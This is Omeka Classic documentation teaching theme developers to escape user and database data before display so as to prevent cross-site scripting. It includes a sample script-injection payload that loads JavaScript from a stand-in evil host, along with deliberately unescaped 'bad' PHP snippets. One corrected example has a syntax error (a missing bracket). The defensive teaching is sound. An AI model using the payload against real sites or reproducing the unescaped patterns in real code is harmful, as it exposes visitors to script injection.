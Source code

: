 ```yaml
---
title: Escaping Data
---
```


*This documentation is for Omeka Classic versions 1.0-1.5*

*Note to theme designers*: Omeka themes should be secure out of the box, so theme designers who do not plan on modifying or adding PHP code to the existing themes will not need to worry about this. However, this document details best practices for web development in general, so theme writers who are also web developers may find it useful.

The Gist 
---------------------------------------------------------
Data that comes from the user is untrustworthy. "User data" includes both data retrieved from the database as well as input from any given user request (e.g. from the URL, form submissions, etc.). The way to avoid problems from untrustworthy data is twofold: validating data prior to storing in the database, and escaping data properly before display. Omeka takes care of validating data that will go into the database (though not automatically for plugins -- that is responsibility of plugin writers), but ensuring the security of displayed data is, unfortunately, the responsibility of the theme writer. Failing to do this won't always leave your Omeka site open to attack, but under certain circumstances it will. The only way to prevent problems for certain is to make sure that data is escaped properly before display.

What could possibly go wrong?
---------------------------------------------------------------
Just for example, suppose you have a theme that displays the search query for which results are being displayed, and the code currently looks like this:


``` {.de1}
Search Results for: <?php echo $_GET['search']; ?>
```

How XSS Attacks Work
-------------------------------------------------------------

If someone did a search for: `<script src=“my-evil-site.com/bad.js”></script>`, that search query is stored in `$_GET[‘search’]`, so that bad HTML would be injected directly into the search results page, and the evil javascript would run. Then the attacker could send some 3rd party a link to those search results, and when that third person followed the link, they would be compromised by the bad javascript.

How to Prevent These Attacks 
--------------------------------

Omeka has a set of helper functions that need to be used in situations such as this. The most important of these is `html_escape()`, which basically translates a PHP value into valid HTML by encoding HTML`entities so that `<` becomes &lt;, `>` becomes &gt;, etc. PHP developers will recognize the similarity to PHP's builtin htmlentities() function, which is basically what this is, with the added ability for plugins to filter the output if necessary.

The previous example could be corrected by wrapping the \$\_GET parameter in html\_escape(), like so:

``` {.de1}
Search Results for: <?php echo html_escape($_GET['search'); ?>
```

Why Doesn't Omeka Do This Automatically? 
-----------------------------------------------------------------

There are a few complicated reasons why the current version of Omeka can't escape all data automatically for theme writers, most of which has to do with the fact that there seems to be no one-size-fits-all solution for this type of problem. That said, we're looking into possible solutions for future releases that would make this easier. Users are welcome to contribute suggestions on the dev mailing list.

Caveats 
-------------------------------------------------------

Not everything in a theme needs to be (nor should be) escaped using `html_escape()`. Important counterexamples include helper functions that`generate HTML, e.g. `auto_discovery_link_tag()`, link\_to(), etc. Also, the output of certain functions like item() should not be escaped, as that is taken care of automatically based on whether or not the field was marked as HTML in the admin.

In addition, this may seem obvious, but pretty much any data over which the theme designer has control does not need to be escaped. For example, escaping literal strings, such as the following, is pointless:



``` {.de1}
<?php echo html_escape('cookies & cream'); ?>
```


Instead, it should just be:

``` {.de1}
cookies &amp; cream
```


Useful Examples of When to Escape Data
---------------------------------------------------------------------------

### User Input

Superglobals like `$_REQUEST, $_GET, $_POST, and $_SERVER` shouldalways be escaped before display.

-   Bad:

``` {.de1}
Search terms: <?php echo $_GET['search']; ?>
```

-   Good:


``` {.de1}
Search terms: <?php echo html_escape($_GET['search']); ?>
```

### From Database

-   Bad:

``` {.de1}
Welcome, <?php echo current_user()->first_name; ?>
```
-   Good:
``` {.de1}
Welcome, <?php echo html_escape(current_user()->first_name); ?>
```

### URLs

In HTML, "href" and "src" attributes must always contain a URL that is properly escaped.

-   Bad:
``` {.de1}
<a href="<?php echo uri('items/browse'); ?>">Go to Items</a>
```
-   Good:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse')); ?>">Go to Items</a>
```

-   Better:

``` {.de1}
<?php echo link_to('items', 'browse', 'Go to Items'); ?>
```

Also, URL query string parameters must be properly encoded with
urlencode() before they are escaped.

-   Bad:
``` {.de1}
<a href="<?php echo uri('items/browse?tags=' . $tag); ?>">
```
-   Good:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse?tags=' . urlencode($tag))); ?>">
```
-   Better:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse', array('tags'=>$tag))); ?>">
```

### Javascript and XML

For developers writing javascript and XML, Omeka has 2 functions (since Omeka 1.1) for escaping data: `js_escape()` and `xml_escape()`. These are necessary because the behavior of `html_escape()` is not necessarily desirable (or valid) for translating from PHP to Javascript or XML. Basically, any context for using `html_escape()` in a theme applies also to `js_escape()` or `xml_escape()`.

-   Bad Example in Javascript:
``` {.de1}
new Ajax.Request("<?php echo uri("items/change-type") ?>");
```
-   How it should be done:
``` {.de1}
new Ajax.Request(<?php echo js_escape(uri("items/change-type")) ?>);
```